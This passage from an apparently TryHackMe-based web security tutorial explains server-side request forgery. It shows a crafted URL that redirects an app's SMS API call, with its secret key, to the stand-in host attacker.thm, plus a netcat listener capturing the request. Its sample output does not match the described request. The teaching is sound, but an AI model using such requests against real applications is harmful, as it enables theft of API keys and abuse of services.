 Think, for example, of a web application that uses an external API to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their API. The API key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

<img src="./Cybersecurity_101_screenshots/owasp18.jpg" width="800" alt="Screenshot 18"> <br>

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the **server** parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the **server** to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC `

You could then just capture the contents of the request using Netcat:

```bash 
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```
This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:
